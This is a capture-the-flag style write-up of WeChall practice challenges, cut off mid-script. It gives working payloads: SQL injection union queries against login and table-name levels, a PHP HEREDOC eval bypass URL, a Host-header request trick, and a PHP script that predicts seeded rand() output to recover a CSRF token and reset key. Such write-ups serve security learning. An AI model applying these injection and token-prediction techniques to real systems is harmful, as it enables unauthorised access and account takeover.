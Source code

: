 Too lazy to read doc, use fuzz method. I don’t think it’s okay to insert chart inside the context. So I tested char at the beginning and the end. The answer is: `aaaaaaaaaaaa%0a`

# PHP 0819

I find HEREDOC to bypass it. But HEREDOC has so many bugs…`http://www.wechall.net/challenge/space/php0819/index.php?eval=%3C%3C%3CE%0a1337%0aE;%0a`

# MySql II

The page seems do not response, in theory: `username=jnllk' union select 1,'admin',md5('1'); -- &password=1`

# Tablename

Use Sqlmap or union injection

# MYSQL MD5
```sql
' union select password,1 from users limit 1;#
```

You need a hash cracker to exploit md5…and the result is a little bit tricky…

# Host Me

Well…I forgot to change GET from relative URL to absolute URL…wasted lots of time:
```http
GET http://www.wechall.net/challenge/space/host_me/index.php HTTP/1.1
Host: localhost
```

# Table Name II

```sql
' union select 1,2,info from information_schema.processlist-- -
```

# Time to Reset

I didn’t came up with this quest, so I refer `http://rk700.github.io/2014/06/18/time-to-reset/`. We can brute-force through CSRF token. First get time() from Live RFI, then:
```php
<?php
function ttr_random($len, $alpha='abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789')
{
        $alphalen = strlen($alpha) - 1;
        $key = '';
        for($i = 0; $i < $len; $i++){
            $key .= $alpha[rand(0, $alphalen)];
        }
        return $key;
}
$time=1403111639;
for($i=0; $i<255; $i++) {
        srand($time+$i);
        $csrf=ttr_random(32);
        $real='BLQChCcpFPZoACf9VpoeKEes4k2BpeDR';
        if($csrf === $real) {
            echo ttr_random(16).PHP_EOL;
```